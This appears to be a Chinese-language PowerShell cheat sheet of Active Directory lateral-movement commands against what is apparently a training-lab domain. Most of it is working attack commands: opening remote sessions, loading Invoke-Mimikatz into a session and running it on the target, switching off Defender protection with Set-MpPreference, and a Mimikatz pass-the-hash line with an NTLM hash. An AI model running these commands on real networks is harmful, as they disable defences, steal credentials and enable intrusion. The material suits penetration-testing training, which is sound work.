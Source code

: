 # 横向移动到指定电脑
```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

# 也可以不要参数
```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

# 获取一个登陆的session，以便根据session指定操作
账号ciadmin可以横向登录到计算机dcorp-mgmt.dollarcorp.moneycorp.local，我们把登录的session保存在$sess
```
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```

在指定session里载入Mimikatz
```
Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

指定目标靶机的session，在目标靶机执行Mimikatz
```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```


# 以某个用户的身份登录到某台电脑（需要明文密码）
```
Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator
```

# 以某个用户的身份打开一个新的shell，有这个用户的所有权限，但是还在本机环境中（需要NTML）
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
```